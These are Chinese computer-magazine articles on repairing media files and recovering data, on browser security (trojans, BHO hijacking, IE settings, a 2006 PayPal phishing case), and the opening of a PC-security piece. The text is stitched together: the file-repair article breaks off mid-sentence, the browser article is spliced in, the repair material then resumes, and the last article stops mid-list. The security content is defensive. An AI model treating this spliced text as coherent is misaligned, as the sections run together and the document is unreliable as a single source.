对影音文件进行修复处理和存储时，会产生缓存文件并占用一定的空间，因此必须确保系统上的可用空间足够大。

对于文件头信息或索引出问题的视频文件，如果愿意花费时间对视频文件重新进行编码，基本上都可以解决问题。如果视频光盘或者视频文件损坏严重，视频播放到特定的位置被卡住，则需要先对视频文件进行编辑。将无法正常播放和编辑的部分剪掉，然后再重新编码使文件能够正常地播放。

#### 1. 通用修复方法

对于RM、WMV、ASF、WMV等格式的视频文件，可以选择支持修复多种视频文件的ASF-AVI-RM-WMV Repair来修复；对于使用十分广泛的RM文件，则可以使用专门的RM修复工具软件RealMedia Analyzer；对于ASF、WMV文件，则可使用工具软件AsfTools修复。

##### (1) 方法一：使用“Zealot All Media Fixer 4.6”

软件下载地址为 http://www.skycn.com/soft/16540.html。这是一款功能强大的软件，堪称影音文件修复多面手，软件可修复的影音文件格式最为全面，包括WMA、WMV、ASF、WM、ASX、AVI、MP1、MP2、MP3、MPA、PGA、MPG、MPEG、MPA、DAT和WAVE，其修复率可以达到82.8%~97.6%。“Zealot All Media Fixer”不仅可以修复视频和声音文件，它还可以修复图像文件，可修复的图片格式包括bmp和jpg。

- 第1步：启动“Zealot All Media Fixer”后，首先对软件进行设置。单击菜单“选项 / 参数”命令。视频、声音和图像这3种类型文件的修复选项中，都提供了“自动处理”和“自定义”2种方式。“自定义”方式又包含3种命令：修复、移除（删除）和忽略。
- 第2步：设置“修复”模式，软件提供了13种视频修复模式、9种音乐修复模式和2种图像修复模式。如果不知道选择什么模式的话，就选择前面提到的“自动处理”。
- 第3步：参数设置完毕后，就可以进行文件修复了。先将损坏的文件添加进来，然后单击“开始检查并修复”，就开始修复了。

##### (2) 方法二：使用videofixer

Videofixer是一个比较通用的修复软件，其修复范围很广，包括DivX、AVI、ASF、WMV、WMA、RM、RMVB等格式，而且修复率很高。软件下载地址为 http://www.skycn.com/soft/11574.html。安装并启动软件后，先备份需要修复的视频文件，然后在窗口中选择相应的视频文件，再单击“修复文件”按钮即可。

##### (3) 方法三：使用ASF-AVI-RM-WMV Repair

这也是一个通用修复软件，下载地址为 http://www.skycn.com/soft/18774.html。软件的使用方法比较简单，只要安装该软件，运行软件并单击工具栏上的“Add File”按钮选择需要修复的文件然后再单击“Repair”按钮即可开始修复。

### 2. DivX 视频文件的修复

DivX 是一种高压缩比的视频多媒体格式，扩展名为 AVI。它提供了接近于 DVD 的画质，但文件的体积比起 DVD 却大大减少，所以很多高质量电影都采用了这种压缩方式。但是，许多朋友经常遇到下载不完整而不能播放的问题。

##### (1) 方法一：使用 “DivFix V1.1”

由于 DivFix 可以对文件中的索引信息进行重建，同时提供标准错误检测和自动检查音 / 视频流中的错误信息的功能，所以它能够帮我们修复下载不完整或其他原因损坏的 DivX 电影。并且还能够为损坏的电影文件重建索引，还可以修复视频文件无法通过拖动滑块快进快退的问题。软件下载地址为 http://www.skycn.com/soft/7860.html。修复文件时，先添加需要修复的文件，然后单击 “重建索引” 就可以了。DivFix 进行修复时不会破坏原文件，因为默认情况下会保留原始文件。修复后，DivFix 自动以 “DivFix.原文件名” 保存修复后的文件。

##### (2) 方法二：使用 Video Fixer

修复网上常见的 DivX 格式的 AVI 文件和其他普通 AVI 文件时，还可以选择支持修复多种视频文件的 Video Fixer (http://www.video-fixer.com) 进行修复。软件下载地址为 http://www.skycn.com/soft/7860.html。Video Fixer 软件的使用方法非常简单，只需单击 “Add Files” 按钮添加视频文件，然后单击 “Check” 按钮或者 “Fix” 按钮，即可进行修复。

### 3. RM 电影的修复

RM 格式的视频文件在网络上最为流行，可是出现的问题也最多。其中，比较常见的现象是无法拖动播放时间条，看了一半的电影如果出现意外，再看时必须得从头开始。其实这种情况是因为这些电影在制作时被损坏了！

#### (1) 方法一：使用 “RM 电影文件修复专家”

针对 RM 文件故障，这款软件能够重新组建 RM 文件结构，彻底修复 RM 文件内部故障，并且修复速度很快，修复率可以达到 95% 以上。软件下载地址为 http://www.skycn.com/soft/17065.html。软件可修复的文件类型包括 rm、rmvb、ram、ra、rv、rf、rt 和 rp。修复过程如下。

- 第1步：启动 “RM 电影文件修复专家”，然后选择要修复的 RM 文件。
- 第2步：单击 “开始修复” 按钮。为了防止意外，修复前可选中 “修复时备份原 RM 文件” 选项，不过这样修复的时间可能要长一些。
- 第3步：修复完成后，软件会询问是否播放，确认后就可以观看修复后的 RM 文件了。

#### (2) 方法二：使用 “Real 文件修复器”

由于种种原因，下载回的 Real 文件经常会有无法拖放、快进，甚至出现文件残缺的现象发生，导致辛辛苦苦下载的影片或歌曲不能顺利播放。这时，不妨使用一款实用软件——Real 文件修复器来修复这些文件。软件下载地址为 http://www.skycn.com/soft/3591.html。这款软件支持的文件格式非常丰富，包括 rm、rmvb、ram、ra、rv、rf、rt、rp 等，它的操作也很简单，并能进行批量修复。

- 第1步：安装并运行 “Real 文件修复器”，首先，按下 “添加 / 批文件” 按钮，将要修复的一个或多个 Real 文件添加入列表中。
- 第2步：直接点击 “修复选择文件” 按钮来修复文件，如果只是用鼠标单击某个文件，使其成为焦点，则这个文件属于 “选定” 文件，可以直接点击 “修复选定文件” 按钮，对其进行修复。当然，也可以按下 “修复所有文件” 来对添加入列表的所有文件进行修复。
- 第3步：修复期间，会弹出命令窗口并显示修复的详尽信息。修复的文件与源文件存放在同一个文件夹下。经过快速修复，待弹出 “修复完毕” 的窗口，便可以在主界面按下 “播放修复后文件” 按钮来查看修复的效果。经过其修复后，可以非常方便地任意拖动观看已经下载的部分。

##### (3) 方法三：使用 “RealMedia Analyzer”

由于该软件运行在命令提示符状态，你需要进入命令提示符窗口，然后转到软件所在的路径。通过键入 “rma 文件名称” 命令来修复视频文件。另外也可以键入 “rma” 命令查看软件可供选择的所有参数的说明。

### 4. MP3 文件的修复

工作之余，欣赏一下网络上的 MP3 歌曲可以放松大脑，不过，许多从网络上下载的歌曲文件会被加入一些杂讯，或者干脆不能打开。

##### (1) 方法一：使用 “NonCook”

软件下载地址为 http://www.skycn.com/soft/12709.html。“NonCook” 可以消除 MP3 文件中的杂讯并使其恢复原状。“NonCook” 安装后会自动集成到鼠标的右键菜单中。在修复前，做好文件备份。在损坏的 MP3 文件上右击并选择 “NonCook” 选项，就可以进行修复了。修复完成后，在原 MP3 文件所在的文件夹里会多出一个 “原文件名.mp3.cooked” 的文件，只要把文件名里的 “.cooked” 去掉就可以试听修复效果了。

##### (2) 方法二：使用 “mpTrim”

mpTrim 是十分有效的针对 MP3 文件的修理工。它是一个小巧方便的 MP3 修整截取工具，主要功能是将 MP3 中不要的部分（从头部或尾部）去掉，只保留精华所在；它的静音检测功能也很强大，你可以利用这个功能把 MP3 文件中多余出来的静音部分剪切掉。软件下载地址为 http://www.skycn.com/soft/1902.html。

- 第1步：单击打开，选择坏的 MP3 文件。如果仅仅是修复文件，那么此时只需单击 “保存” 即可。
- 第2步：如果要截取MP3文件，首先确定需要截取的部分。打开MP3播放软件，播放MP3文件，然后记下开始截取的时间和截取部分末尾的时间。
- 第3步：运行mp3Trim，打开文件，在“从头部”处输入截取部分的开始时间，单击右边的小喇叭按钮；在“从尾部”处输入时间，此时间是从文件末尾往前推的时间，所以此时需用音乐总的时间减去刚才记下的时间来得到，单击右边的小喇叭按钮，然后选择保存就可以了。

在修复视频文件的过程中，根据文件损坏的具体情况以及文件类型的不同，需要采取不同的方法，或者选择不同的工具软件。一般来说，通用的视频文件修复软件可以支持更多的文件类型；而专用的修复工具软件则针对性比较强，更适合那些对视频文件相关技术要求较高的用户使用。可以根据该文件类型的特点做出详细的修复设置，从而获得更理想的修复效果。

### 四、更上一层楼：各类介质上的文件修复

没有采取合适的应急措施的情况下，一个企事业单位遭遇数据损毁灾难后的结果是不可想象的。轻者工作延误、效率降低。重者导致工作停顿、形象受损，陷入无比尴尬的境地。因此，我们还要考虑修复一些常用介质上的重要文件，如U盘或数码相机、光盘，甚至网络服务器上的文件安全。

#### 1. 介质文件修复要点

随着U盘、光盘、移动硬盘等存储介质的广泛应用，针对这些介质的文件修复工作也日益频繁。要达到理想的修复效果，首先必须注意以下操作要点。

##### 要点一：关于介质读写操作的问题

如果你没有安装数据恢复软件，那么在数据丢失后，千万不要在硬盘上再进行其他读写操作。不要在硬盘上安装或存储任何文件和程序，否则它们就会把要恢复的文件覆盖掉，给数据的恢复带来很大的难度，也影响到修复的成功率。特别提醒：在安装Windows系统时就应该安装好数据恢复软件，并在出现文件误删除后立刻执行恢复操作，这样一般可以将删除的文件恢复回来。

##### 要点二：关于备份源文件后再进行修复的问题

这是一个十分重要的操作步骤，如果是误格式化的磁盘分区、误删除的文件，则建议先用Ghost克隆误格式化的分区和误删除文件所在的分区，把原先的磁盘分区状态给备份下来，以便日后再次进行数据恢复。

##### 要点三：关于重要数据介质的保护问题

如果丢失的数据在系统分区，那么请立即关机，把硬盘拿下来，挂到别的电脑上作为第二硬盘，在上面进行恢复操作。如果你的数据十分重要，尤其是格式化后又写了数据进去的，最好不要冒险自己修复，还是请专业的数据恢复公司来恢复。

除了上述的文件修复操作要点，关于文件修复工具的选择也十分重要，现在的文件修复软件都各有特点，修复率也各有差异。不正确的选择可能会导致“一招不慎，满盘皆输”的被动局面。下面，我们将分门别类地进行一些针对性的介绍。

#### 2. 从分区或U盘中修复文件

恢复数据的软件很多，有FinalData、EasyRecovery、DataRecovery、PC Inspector File Recovery等，这里使用上文所介绍的EasyRecovery Professional，成功率比较高，扫描速度也快。

- 第1步：启动EasyRecovery Professional，点击“数据恢复”，在右边的界面点击“格式化恢复”，然后在弹出的对话框中选择被格式化的分区，按“下一步”。如图5所示。
- 第2步：硬盘开始进行读操作，时间视分区大小而定，扫描搜索完成后，就会罗列出搜索到的文件，用户可以在上面找到需要恢复的文件，选择保存位置。注意：保存的位置千万不要选择被格式化的分区，一定要选择其他的分区，以免覆盖源文件。之后直接点击“下一步”，软件就会自动进行恢复了。

除了上述操作，还可以利用“EasyRecovery Professional”修复由病毒感染、非正常关机引起的文件损坏和丢失。首先打开丢失／误删除文件所在的分区，在默认情况下，它将对所选的分区执行一次快速扫描，使用已存在的目录结构查找已删除的目录和文件。如果文件损坏的症状很严重，那么就要执行完全扫描，扫描完成后找到需要修复的数据即可进行操作。利用这种方法，还可以很轻松地恢复U盘的数据。另外，当MP3、移动硬盘等移动存储设备无法读取时，也可以试试这种方法。

#### 3. 光盘、闪存卡及其他存储器上的文件修复

目前市场上销售的刻录盘质量都不太好，虽然刻录后的文件可以在资源管理器中看见，但就是不能读取，而且光盘放久也可能出现整张盘不能读取的现象，针对这些情况，可以使用以下解决方法。

##### （1）方法一：用BadCopy进行修复

CD、CD-RW、CD-R、DVD光盘是我们平时最常见、常用的移动存储介质，但如果我们因为保存不当或因为潮湿、划伤造成光盘无法被光驱读取。对于盘片损坏的光盘视频，由于已经损坏的盘片在读取时是非常费时的。而修# 滴水不漏：打造安全的浏览器

文/风之扬

随着网络技术的不断发展，网络安全问题也越来越被人们重视。在网上冲浪的过程中，和用户关系最密切的莫过于浏览器了，很多安全隐患也由此而生：轻则广告漫天飞，系统毛病不断；重则丢失文件，甚至硬盘上的数据也会遭到破坏。为什么浏览器会遇到如此多麻烦，针对浏览器的攻击主要有哪些形式，本专题将结合具体实例，为用户打造一个安全的浏览器。

### 一、追根溯源:浏览器的安全隐患分析

作为一个客户端软件，浏览器的主要职能是给服务端软件提供连接接口，因此必定会接收大量的数据，而这些数据中难免会夹杂恶意程序。一个最贴切的比喻是：每个人家里的门窗都是必不可少的，而我们防贼也是首先从门窗着手。作为电脑系统的防盗门，浏览器也会存在各方面的内外安全隐患。

#### 1. 浏览器外部安全隐患分析

因特网建立在自由、开放和共享的基础上，这也意味着人们会遇到各种各样的外部安全威胁，下面是针对浏览器的几种典型攻击现象。

- 第 1 种：针对浏览器的病毒、蠕虫
病毒一般都具有自我复制的功能，它一般镶嵌在主机的程序中，当被感染文件执行操作的时候，病毒就会自我繁殖。浏览器感染病毒后，可能会自我复制去感染系统中的其他程序。另外，恶作剧电子邮件对浏览器的攻击力度更大，通常这种病毒的传播是通过一些无辜的用户，有的恶作剧邮件会指使用户修改系统设置或是删除某些文件，这都将严重影响系统的安全性。

- 第 2 种：特洛伊木马
现在，许多通过网站传播的木马程序会携带恶意代码，或者以一个软件的身份出现（例如一个可供下载的游戏），但它实际上是一个窃取密码的工具。这种病毒通常不容易被发现，因为它一般是以一个正常的身份在系统中运行的。为了达到这个目的，木马程序一般将一个客户端和一个服务器端放在木马控制者的电脑中，服务器端放置在被入侵电脑中，木马控制者通过客户端与被入侵电脑的服务器端建立远程连接。一旦建立网络连接，木马控制者就可以通过对被入侵电脑发送指令来传输和修改文件。

- 第 3 种：“浏览器劫持”(Browser Hijack)
这是一种不同于普通病毒木马感染途径的网络攻击手段，它的渗透途径很多，目前最常见的方式有通过 BHO、DLL 插件、Hook 技术、Winsock LSP 等载体达到对用户的浏览器进行篡改的目的。这些载体可以直接寄生于浏览器的模块里，成为浏览器的一部分，进而直接操纵浏览器的行为，轻者把用户带到自家门户网站，严重的则会在用户计算机中收集敏感信息，危及用户隐私安全。“浏览器劫持”的后果非常严重，用户只有在受到劫持后才会发现异常情况，但是这时候已经太迟了。目前，浏览器劫持已经成为 Internet 用户最大的威胁之一。此外，攻击者还可以利用系统的漏洞进行入侵，例如非法数据访问。通常用于编写移动代码的工具包括 Applet、ActiveX、Javascript 和 VBScript 等，通过这些语言，可以很轻松地编写一个死循环程序，或者利用系统漏洞进行读取与改写硬盘文件、修改注册表，甚至还可以格式化硬盘。

- 第 4 种：复合型病毒
复合型病毒就是恶意代码通过多种方式传播。著名的“尼姆达”蠕虫实际上就是复合型病毒的一个例子，它有以下传播方式：E-Mail、网络共享、Web 服务器、浏览器。除了以上这些方法，复合型病毒还会通过其他的一些服务来传播，例如直接传送信息和点对点的文件共享。

#### 2. 浏览器内部安全隐患分析

下面，我们从浏览器内部原因入手，对其安全隐患进行剖析。

##### （1）浏览器漏洞问题

现在，大部分用户都选择使用 IE 浏览器和 Firefox 浏览器。但是，这两个浏览器的安全漏洞问题始终没有得到解决。虽然微软公司发布了许多这种补丁文件和升级文件，但 IE 浏览器很少有实质性的创新内容，对待安全问题也总是采取事后弥补的态度。由于它在浏览器市场上占有强大的份额，许多网络开发商在优化其代码时都是针对 IE 浏览器设置进行的，因此我们还将在很长的一段时间内继续忍受 IE 浏览器中的各种缺陷。至于 Mozilla 公司的火狐浏览器，目前也发现了不少漏洞，作为一个安全隐患，在今后很长时间里它将继续存在。作为用户，我们应该时刻警惕浏览器中的漏洞。

##### （2）软件自身设计的问题

比如，与 IE 浏览器相比，Firefox 浏览器体积小，存在的 Bug 也相应少些；很多病毒的侵入都是通过插件进入的，Firefox 捆绑的插件比较少，因此也可以堵住一些病毒入侵的通道。

##### （3）用户安全意识的问题

很多用户认为只要安装杀毒软件就可以万事大吉了。但是，事实上，“浏览器劫持”的攻击手段是可以通过被系统认可的“合法途径”来进行的！因为大部分浏览器劫持的发起者，都是通过一种被称为“BHO”(Browser Helper Object，浏览器辅助对象) 的技术手段植入系统的。通过 BHO 接口，第三方程序员可以自己编写代码获取浏览器的一些行为（Action）和事件通知（Event），如“后退”、“前进”、“当前页面”等，甚至可以获取浏览器的各个组件信息。由于 BHO 的交互特性，程序员还可以使用代码去控制浏览器的行为，比如常见的修改替换浏览器工具栏、在浏览器界面上添加自己的程序按钮等操作，而这些操作都被视为“合法”的，这就是一切罪恶根源的开始。另外，在网络浏览的过程中，很多用户没有养成良好的上网习惯，在好奇心的驱使下，容易打开来历不明的网站，随意浏览不健康的网站等，都可能成为浏览器的安全隐患。

### 二、防患于未然：浏览器的安全管理

毫无疑问，绝对安全的计算机网络是不存在的，现在，通过各种手段针对浏览器的恶意修改、攻击方法非常多。为了有效防止被人截获信息，我们完全可以先入为主，对所使用的浏览器进行设置，并逐步提高安全认识，就能在面临浏览器攻击时防范于未然。下面，我们以微软公司的 IE 浏览器为例，结合实例进行讲解。

#### 1. 浏览器的安全设置

# 第 1 招：管理好浏览器 Cookie

Cookie 意为“小甜饼”，它为 Web 应用程序保存用户相关信息提供了一种有用的方法。当在因特网上搜索信息时，用户的个人资料、所用电脑系统的资料和所浏览过的网页资料都将被储存在一个资料夹中，这个资料夹即 Cookies。在 IE6.0 浏览器中，打开“工具”菜单下的“Internet 选项”，在弹出的窗口中，找到“隐私”对话框，这里设定了六个级别，用户只要拖动滑块就可以方便地进行设定。而点击下方的“站点”按钮，在“网站地址”中输入特定的网址，就可以将其设定为允许或拒绝它们使用Cookie。如图1所示。

# 第 2 招：禁用或限制使用 Java 程序及 ActiveX 控件

在网页中，经常会使用Java、Java Applet、ActiveX脚本，它们可能会获取你的用户标识、IP地址、口令，甚至会在你的机器上安装某些程序或进行其他操作，因此必须对其进行限制。打开“Internet选项”中的“安全”标签，在“自定义级别”中，严格设置“ActiveX控件和插件”、“Java”、“脚本”、“下载”、“用户验证”以及其他安全选项。对于一些不太安全的控件或插件以及下载操作，应该予以禁止、限制，至少要进行提示。如图2所示。

# 第 3 招：防范 BHO 程序

对付此类攻击，首先要了解其攻击原理。比如利用浏览器“中文网址”的BHO，就是通过GetSite方法获取到IE当前打开的站点URL，如果BHO发现获取到的URL和内置的判断条件匹配，该BHO就会强制IE跳转到程序员设定的页面去，这个过程就是利用“about:blank”篡改主页的“浏览器劫持”方法之一。了解类似原理后，要解决它就容易了，只要找到并删除这个隐藏在系统里的BHO程序即可。

# 第 4 招：保护启动浏览器

右键单击IE的快捷方式，选择“运行方式”命令，在打开对话框上，确保勾选“保护我的计算机和数据不受未授权程序的活动影响”复选框。用这种方法启动IE，浏览器会获得一个受限的访问令牌（Restricted Token），无法对系统目录和注册表进行写操作，网页中的恶意代码也就没法破坏系统。这样，浏览器安全性可以得到很大提高，同时还能用来对付DuDu加速器、3721等流氓插件。

# 第 5 招：清除已浏览过的网址

在“Internet选项”对话框中的“常规”标签下，单击历史记录区域的“清除历史记录”按钮即可。若只想清除部分记录，单击IE工具栏上的“历史”按钮，在左栏的地址历史记录中，找到希望清除的地址或网页，单击鼠标右键，从弹出的快捷菜单中选取“删除”。

# 第 6 招：清除已访问过的网页

为了加快浏览速度，IE会自动把浏览过的网页保存在缓存文件夹“C:\Windows\Temporary Internet Files”下。当不再需要浏览过的网页时，在此删除网页即可。或者在“Internet选项”的“常规”标签下单击“Internet临时文件”项目中的“删除文件”按钮，在对话框中选中“删除所有脱机内容”，单击“确定”，这种方法会遗留少许Cookie在文件夹内。为此IE6.0在“删除文件”按钮旁边增加了一个“删除Cookie”的按钮，通过它可以很方便进行删除操作。

# 第 7 招：防止泄露个人信息

缺省条件下，用户在第一次使用Web地址、表单、表单的用户名和密码后，同意保存密码，在下一次再进入同样的Web页及输入密码时，只需输入开头部分，后面的就会自动完成。这给用户带来了方便的同时也留下了安全隐患。因此，我们可以通过调整“自动完成”功能的设置来解决：点击“Internet选项”下的“内容”标签，单击“自动完成”按钮，打开“自动完成设置”对话框，选中要使用的“自动完成”复选项。为防止泄露信息，用户应定期清除历史记录，方法是在“自动完成设置”对话框中点击“清除表单”和“清除密码”按钮。如图3所示。

# 第 8 招：防止 IE 主页地址被修改的妙招

首先，打开IE浏览器的安装文件夹，选中IEXPLORE.EXE文件并点击鼠标右键，在弹出的快捷菜单中选择“发送到”下的“桌面快捷方式”。然后，在桌面上用鼠标右键单击该快捷方式，选择“属性”，再选择其中的“快捷方式”标签，然后在“目标”框的结尾处加上参数“-nohome”，即：“C:\Program Files\Internet Explorer\IEXPLORE.EXE" -nohome，输入完毕，点击“确定”退出即可。这样即使主页被修改也没有关系，打开IE就是一片空白。设置方法如图4所示。

#### 2. 通过浏览器安全工具加强防护

##### 第一种：通过专用浏览器安全网站测试

ScanIT网站是通过模仿多类攻击模式来检测常见浏览器是否存在有可被利用的漏洞，网站地址为：http://www.scanit.be/bcheck。首先，登录站点，就会看到浏览器的版本、操作平台等信息。在网页中间，可以选择其中一种检测模式：Only test for bugs specific to my type of browser（仅检测自己所使用的浏览器漏洞），Run all available tests（进行全部浏览器漏洞检查）。为了能够彻底检查出浏览器的漏洞，建议选择第二项。选择完成后，按下“Start the test”（开始测试），检查就自动开始了，随着任务条的移动，我们就能掌握检测的进度。在检测过程中，浏览器会不断地弹出许多网页窗口，还有可能会启动 Media player 或超级解霸等多媒体播放工具，这些都是检测中的正常现象。检查完毕，ScanIT 会给出一份检测报告，并详细解释每个漏洞的具体名称及造成的破坏程度，另外，报告中还提供了漏洞补丁的下载链接。如图5所示。

第二种：通过“恶意软件清理助手 V2.14”清理
软件下载地址：http://www.tomsoft.com/products。这是最近比较热门的一个“流氓软件”清理工具，软件清理项目包括：恶意软件清理、系统进程清理、启动项目清理、注册表项清理、可疑文件搜索、临时文件清理等。它采用了最新的查杀引擎，可以检测多达近百种恶意软件，尤其是网络行业协会点名的“十大流氓软件”，并能把恶意软件彻底清除。在这里，很容易发现一些恶意软件的残留痕迹。注意：清理时最好在 Windows 安全模式下进行。

第三种：通过工具组合防护
首先，可以通过钓鱼网站过滤器和 MSN 搜索工具栏进行保护。MSN 搜索工具栏下载地址：http://toolbar.china.msn.com；钓鱼网站过滤器下载地址：http://addins.msn.com/phishingfilter。此外，如果恶意程序通过其他方法入侵，例如捆绑到共享软件里，我们可以借助微软免费提供的反间谍软件 Windows Defender，对系统进行实时防护。下载地址为：http://www.microsoft.com/athome/security/spyware/software/default.mspx。

值得注意的是，针对“浏览器劫持”修复，一般都需要手工进行，虽然现在有很多浏览器检测工具如 HijackThis、Browser Hijack Recover 等软件面世，但有些工具只会把系统的进程、BHO 项目、启动项、LSP 等状况显示出来，真正解决问题则还需要通过手动的方法去解决，“一劳永逸”的心态已经显得力不从心了。

#### 3. 案例分析：辨别浏览器中的陷阱

除了上述防卫方法，我们还要注意利用其他手段结合浏览器进行造假的情况。下面我们来看看 2006 年的一个攻击实例及其原理。

PayPal 公司是美国 eBay 公司的全资子公司，它利用现有的银行系统和信用卡系统，通过先进的网络技术和网络安全防范技术，在全球 55 个国家为个人以及网上商户提供安全便利网上支付服务。树大招风，PayPal 公司就被钓鱼攻击者盯上了。下面，我们来看看这个骗局是如何设置的。

首先，用户收到了一封邮件，仔细一看，很多用户也难以看出什么破绽，毕竟这个邮件好像确实来自 PayPal 公司，不过，其中的问候格式和伪造的随机字符却存在明显的漏洞。点击的地址表面上是 https://www.paypal.com/us/cgi-bin/webscr?cmd=_login-run，实际上则是 http://218.246.224.203/icons/.cgi-bin/paypal/cgi-bin/webscrcmd_login.php。可谓“指东打西”！

点击这个地址，进入浏览器页面，在 IE 地址栏上，有一个 https 地址。由于采用了隐蔽的弹出窗口，一般人几乎看不出破绽。其基本原理在于通过 JavaScript 语言中的“window.createPopup()”方法伪造 Popup 窗口，弹出的窗口没有地址栏，也没有可疑的 URL 地址，而且与背景相连，很容易给人造成一种错觉。用户输入相关数据后，网站就会提示如下界面，是真是假，我们就要睁大眼睛看清楚了。如图6所示。

这个页面被打开后，自动装载了一个 Java 程序，并用一个包含合法 URL 的窗口覆盖地址栏的内容，查看页面的属性后，真实的地址实际上是一个 http 地址，而与 https 根本就没有关系。页面中间的 User ID 和 Password 则等着用户来“上钩”。再看地址栏右下角，根本没有锁的标志。针对这种“真假李逵”现象，我们可以使用如下代码来识别：

```
javascript:alert("真实的URL地址是:\t\t" + location.protocol + "//" + location.hostname + "/" + "\n如果这个地址和浏览器中显示的URL地址不匹配，你可能登录了一个不同的Web站点，建议关掉浏览器并清除浏览器缓存！");
```

以国内的招商银行为例，登录如下地址：https://www.sz1.cmbchina.com/script/hbyktlogin.htm，将上述代码复制到浏览器地址栏，然后按回车键，这时，会弹出一个对话框，并给出相应的提示。在上述案例中，填写相关信息后，接下来还有一个表单，这就是钓鱼者设下的圈套了，用户输入信息后，直接被提交到他所设置的数据库中。在得到用户的数据后，钓鱼者为了继续迷惑用户，还给出了提示信息。可见，这个攻击手段结合了多种方法，尤其是通过 Java 程序伪造浏览器地址栏的手段，更让人防不胜防。

总之，要打造一个安全的浏览器，首先必须了解浏览器的安全状况，多多关注最新的漏洞消息并及时修补漏洞。同时，还要掌握一定的网络语言基础知识，从更大范围、更多视角来考虑可能存在的问题，从而打造一个更加安全的浏览器。

另外，随着数码相机的普及，用数码相机拍照带来的问题越来越多，如执行误删除操作或者数码相机电池不足等情况会导致相片丢失。使用 BadCopy 等软件，可以很轻松地修复存储卡中的文件。

当然，也可使用 MediaRecover 等软件，它可以恢复在多种移动数字媒体上的已经丢失、删除、格式化的照片、声音和视频文件。需要注意的是：如果发现相片丢失或者误删除、误格式化，应立即把存储卡从数码相机上取出来，不要使用这张存储卡来存储新拍摄的相片，以免将有用数据的簇占满，导致相片的恢复难度加大。

##### (2)方法二：使用VCDGear修复文件。

目前，一般的视频文件修复软件都不支持修复 DAT、MPG 类型的视频文件，如果这些文件出现问题，可以考虑使用 VCDGear 进行修复，软件下载地址为 http://www.vcdgear.com/。它可以转换 VCD 光盘上的 DAT、MPG 文件，以及修复这些文件中的错误。

1. 第1步：打开软件后单击上方的“VCDGear”按钮，在确保“Fix MPEG Errors”的复选框被选中的状态下，从“Extraction/Conversion”下拉菜单中选择需要的功能。
2. 第2步：单击左下方的“Load”按钮选择需要修复的文件，再单击“Start”即可。需要注意的是，如果需要批量修复文件，在添加待修复文件后，单击上方的箭头按钮；逐一添加任务到批处理功能中，然后再从批处理功能的窗口中单击“Start”按钮执行批处理即可。

通过软、硬两方面的结合讲解，我们对文件恢复技术有了一个比较全面详细的了解。实际使用过程中，最重要的是寻找有针对性的修复方法和修复工具，对症下药，把握好修复的时机，从而最大限度的保证文件修复的成功率。这样，我们就可以很轻松地品尝一下那份绝地逢生、失而复得的滋味了！

# 打造个人电脑级安全系统

文 / TMG hyff

### 引言：

“最初的信任已经消失了，伴随着它们的进驻，这里已经成为了一个沼泽，有你想要的宝藏，也有随时能够吞噬掉你的陷阱。”这是网络上流传的一句话，也许用这句话来形容现在的电脑系统，尤其是越来越多的与网络紧密联结的电脑系统的安全性是很恰当的。很多初级用户在使用电脑时最为困惑的，莫过于对病毒和各种恶意攻击的恐惧和迷惑了。“我什么都没有做，怎么就变成这样了？”的确，现在的各种攻击、病毒、恶意软件等等真的是防不胜防。一不小心，浏览器就多出了很多个无聊的插件；上网时候，总是跳出无穷无尽的广告窗口，关也关不掉；QQ无法登录，恐怕被盗号了；打开邮箱，放眼望去都是垃圾邮件；自己的个人资料也有可能被人悄悄地收集……最后电脑失去响应，中毒了！真是麻烦。这些问题也确实够挠头的！但中国有句古话，叫“防患于未然”。其实只要平时多做一些预防工作，上网时多注意一些技巧，这些问题基本上都可以摆平。

### 一、病毒 / 攻击篇

#### 1. 病毒介绍

病毒，这个名词原本是在医学中才使用的，将其用在计算机行业中，是用来描述独立存在或是在计算机程序中插入的破坏计算机功能或者毁坏数据，影响计算机使用，并具有自我复制能力的一组计算机指令或者程序代码。之所以称其为病毒，是因为这种指令或者程序代码就像生物病毒一样有独特的复制能力，可以很快地蔓延，又常常难以根除。它们能把自身附着在各种类型的文件上，当文件被复制或传送时，它们就随同文件一起蔓延开来。

#### 2. 常见病毒类型

现阶段的病毒，主要分为以下几种类型。

- 第一种：感染可执行文件的病毒
感染途径：盗版光盘、安全性不佳的共享网络等
- 第二种：后台运行进行恶意控制和破坏的病毒
感染途径：系统漏洞、用户错误权限、社会工程学等
- 第三种：蠕虫病毒
感染途径：系统漏洞、用户错误权限等
- 第四种：脚本病毒
感染途径：网页脚本等

#### 3. 攻击介绍

除了病毒，互联网络上还有一股暗潮——人为攻击。

由于攻击是由人完成的，我们通常更加关注对用户进行攻击的攻击者。我们可将攻击者分为三类。

##### （1）早期的攻击者

这类攻击者大多技艺高超，对操作系统、网络协议、编程语言都有相当造诣，他们中相当一部分人的正当职业就是高级程序员、系统分析师、网络管理员。他们进行攻击多半是为了炫耀技术，并不会进行破坏。

##### （2）黑客

黑客相比前一类人而言，也有着不错的技术，然而他们却被金钱物欲所俘获，将自己的技术和灵魂出卖给金钱。只要为了经济利益，黑客可以不择手段地破坏。

##### （3）脚本小子

脚本小子相对前两类人而言是堕落的平庸者。他们使用着前两类人所开发的工具，对网络上的机器（不管是终端用户还是服务器）进行扫描；看到有漏洞的系统就又使用现成的教程、工具尝试进入，并在进入之后大肆进行破坏；在无法进入的时候，甚至就直接攻击了事。
对个人用户而言，由于个人用户的系统内通常没有非常有价值的资料，不具备较大的经济利益，因此前两类人一般不会染指用户的计算机。让用户深受其害的攻击，常常来自脚本小子。

#### 4. 如何预防病毒/攻击

病毒 / 攻击的破坏方法是不断演化的。随着编程技术的进步，目前的病毒 / 攻击具备越来越多的欺骗特征，可以说目前病毒传播 / 攻击入侵的主要途径就是漏洞和欺骗。对待漏洞没说的，第一时间打上补丁是最好的解决办法，对待欺骗则要依靠用户主观的判断了。

下面笔者把防止病毒攻击的办法大致列举一下，虽然有些条件比较苛刻，实施起来也比较麻烦，但还是希望用户能尽力做到。事先做好预防总比中毒 / 攻击后受到损失强。

- 方法一：
用户密码足够复杂，推荐“8～16位数字+大小写字母+特殊符号”，如密码“UseR!!1346528575”就比“134652”安全许多；Windows 2000/XP用户可考虑把administrator用户改名。

- 方法二：
尽量不要使用网络共享，而是采用ftp等更安全的方式代替（默认共享目录，空密码漏洞都非常容易被利用）；如果必要情况下需要使用网络共享，请一定设置如同第1条讲述的复杂密码，并制定文件目录的确实需要的最小权限（例如提供让其他用户下载的资料，设置成只读权限就足够了）。

- 方法三：
